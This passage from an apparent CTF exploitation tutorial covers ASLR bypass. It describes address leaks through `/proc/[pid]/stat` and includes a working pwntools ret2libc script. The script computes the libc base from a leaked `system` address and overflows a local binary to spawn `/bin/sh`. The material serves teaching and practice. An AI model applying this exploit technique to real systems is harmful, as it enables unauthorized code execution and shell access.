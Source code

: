```python
    except Exception as e:
        print(e)
        print(traceback.format_exc())
        pass
```

<figure><img src="../../../.gitbook/assets/image (1214).png" alt="" width="563"><figcaption></figcaption></figure>

### Local Information (`/proc/[pid]/stat`)

The file **`/proc/[pid]/stat`** of a process is always readable by everyone and it **contains interesting** information such as:

* **startcode** & **endcode**: Addresses above and below with the **TEXT** of the binary
* **startstack**: The address of the start of the **stack**
* **start\_data** & **end\_data**: Addresses above and below where the **BSS** is
* **kstkesp** & **kstkeip**: Current **ESP** and **EIP** addresses
* **arg\_start** & **arg\_end**: Addresses above and below where **cli arguments** are.
* **env\_start** &**env\_end**: Addresses above and below where **env variables** are.

Therefore, if the attacker is in the same computer as the binary being exploited and this binary doesn't expect the overflow from raw arguments, but from a different **input that can be crafted after reading this file**. It's possible for an attacker to **get some addresses from this file and construct offsets from them for the exploit**.

{% hint style="success" %}
For more info about this file check [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) searching for `/proc/pid/stat`
{% endhint %}

### Having a leak

* **The challenge is giving a leak**

If you are given a leak (easy CTF challenges), you can calculate offsets from it (supposing for example that you know the exact libc version that is used in the system you are exploiting). This example exploit is extract from the [**example from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (check that page for more details):

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

